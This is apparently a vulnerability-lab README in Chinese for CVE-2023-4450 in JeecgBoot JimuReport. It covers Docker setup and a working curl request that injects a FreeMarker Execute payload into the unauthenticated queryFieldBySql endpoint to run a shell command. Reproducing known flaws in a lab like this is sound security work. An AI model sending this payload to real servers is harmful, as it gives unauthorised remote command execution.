

# JeecgBoot JimuReport 模板注入导致命令执行漏洞（CVE-2023-4450）

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一。

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在，由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生。

引用:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## 漏洞环境

执行如下命令启动 3.5.3 版本的 JeecgBoot 后端：

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 查看JimuReport页面。

## 漏洞利用

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload：

```bash
curl --location 'http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}'
```


